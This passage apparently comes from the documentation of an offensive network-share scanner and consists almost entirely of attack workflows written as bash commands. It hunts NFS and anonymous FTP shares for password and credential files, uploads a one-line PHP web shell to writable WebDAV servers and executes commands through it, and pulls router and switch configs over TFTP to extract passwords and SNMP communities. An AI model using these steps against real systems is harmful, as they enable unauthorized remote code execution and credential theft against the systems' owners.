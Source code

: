 ```bash
ls -laR /mnt/nfs > nfs_contents.txt

# 4. Look for sensitive data
find /mnt/nfs -name "*.conf" -o -name "*.xml" -o -name "*.bak"
find /mnt/nfs -name "*password*" -o -name "*credential*"
```

### Workflow 3: FTP Anonymous Access
```bash
# 1. Find FTP servers with anonymous access
./shareseek.py -v | grep ANONYMOUS

# 2. Connect and enumerate
lftp ftp://192.168.1.50
lftp> mirror -c /

# 3. Search downloaded files
grep -ri "password" ./ftp-mirror/
grep -ri "username" ./ftp-mirror/

# 4. Check for writeable directories
lftp> put test.txt
# If successful, potential for malicious uploads
```

### Workflow 4: WebDAV Exploitation
```bash
# 1. Find WebDAV servers
./shareseek.py | grep WebDAV

# 2. Test methods
curl -X OPTIONS http://192.168.1.53/webdav

# 3. Test for write access
curl -X PUT http://192.168.1.53/webdav/test.txt -d "test"

# 4. If writable, upload web shell
curl -X PUT http://192.168.1.53/webdav/shell.php \
    -d '<?php system($_GET["cmd"]); ?>'

# 5. Execute
curl http://192.168.1.53/webdav/shell.php?cmd=whoami
```

### Workflow 5: TFTP Configuration Theft
```bash
# 1. Find TFTP servers
./shareseek.py | grep TFTP

# 2. Attempt common config files
tftp 192.168.1.54 -c get startup-config
tftp 192.168.1.54 -c get running-config
tftp 192.168.1.54 -c get config.txt

# 3. Cisco device configs
tftp 192.168.1.54 -c get router-confg
tftp 192.168.1.54 -c get switch-config

# 4. Extract credentials
cat startup-config | grep -i "password\|secret\|community"
```
